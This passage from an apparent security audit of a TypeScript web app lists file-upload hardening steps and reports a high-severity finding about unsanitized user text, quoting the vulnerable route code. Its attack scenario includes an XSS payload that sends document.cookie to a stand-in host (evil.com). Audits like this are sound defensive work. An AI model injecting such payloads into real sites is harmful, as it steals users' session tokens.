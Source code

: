 ```typescript
})
```

**Additional Security Measures:**

1. Store uploads outside web root
2. Implement virus scanning (ClamAV)
3. Set restrictive file permissions (0644)
4. Use Content-Security-Policy headers
5. Implement file quarantine for suspicious uploads
6. Add honeypot files to detect automated attacks

---

### 6. Missing Input Sanitization in User-Generated Content

**Severity:** P1 - HIGH
**Impact:** XSS attacks, injection vulnerabilities
**Location:**
- `C:\Users\yoppi\Downloads\Lumiku App\backend\src\apps\carousel-mix\routes.ts` (text content)
- `C:\Users\yoppi\Downloads\Lumiku App\backend\src\apps\avatar-creator\routes.ts` (persona descriptions)

**Description:**

User-generated text content (carousel text, avatar descriptions, project names) is stored without sanitization and could contain XSS payloads that execute when rendered in the frontend.

**Vulnerable Code:**
```typescript
// carousel-mix/routes.ts - No sanitization
app.post('/projects/:projectId/texts', authMiddleware, async (c) => {
  const body = await c.req.json()

  // Directly stores unsanitized content!
  const text = await service.createText({
    content: body.content,  // Could be: <script>alert('XSS')</script>
    // ...
  })
})

// avatar-creator/routes.ts - No sanitization
app.post('/projects/:projectId/avatars/upload', authMiddleware, async (c) => {
  const uploadData = {
    personaName: body.personaName,  // No sanitization
    personaBackground: body.personaBackground,  // Could contain scripts
    // ...
  }
})
```

**Attack Scenario:**
1. Attacker creates carousel project
2. Adds text: `<img src=x onerror="fetch('https://evil.com?cookie='+document.cookie)">`
3. Text stored in database without sanitization
4. Victim views carousel in dashboard
5. XSS executes, stealing session token
